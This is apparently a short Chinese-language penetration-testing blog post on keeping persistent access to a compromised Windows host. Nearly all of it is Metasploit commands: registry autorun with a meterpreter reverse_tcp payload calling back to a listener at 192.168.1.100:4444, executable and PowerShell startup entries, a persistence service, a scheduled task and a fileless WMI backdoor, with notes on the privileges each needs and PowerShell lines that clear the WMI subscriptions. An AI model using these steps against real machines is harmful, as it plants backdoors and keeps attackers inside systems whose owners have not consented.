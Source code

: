 ```yaml
---
title: "Windows 单机权限维持"
date: 2019-07-22T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['windows']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



Windows 单机权限维持

<!--more-->

## 注册表

上传 vbs 开机自启 (被弃用).

```
run persistence -r 192.168.1.100 -p 4444 -i 5 -P windows/x64/meterpreter/reverse_tcp -X
```

上传 exe 开机自启 (替代 vbs 方式).

```
run post/windows/manage/persistence_exe REXEPATH=/home/exp10it/msf.exe
```

添加 powershell 开机自启.

```
use exploit/windows/local/registry_persistence
```

可指定 `STARTUP`, 但注意要在会话是 Administrator 权限的时候运行, System 权限需先降权, 否则无效.

## 服务

仅支持 x86 payload, 可通过 `exploit/windows/local/payload_inject` 反弹成 64 位的会话.

```
use exploit/windows/local/persistence_service
```

## 计划任务

上传 exe 执行, 需要 system 权限.
```
run scheduleme -e /home/exp10it/msf.exe -H 12
```

中途会出现 ` Failed to create scheduled task!!`, 但实际上已经添加成功.

## WMI

通过 powershell 方式执行, 无文件后门, 支持 5 种触发方式.

```
use exploit/windows/local/wmi_persistence
```

注意切换触发方式时要先清除以前的后门.

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Updater%'" | Remove-WmiObject -Verbose
``` 
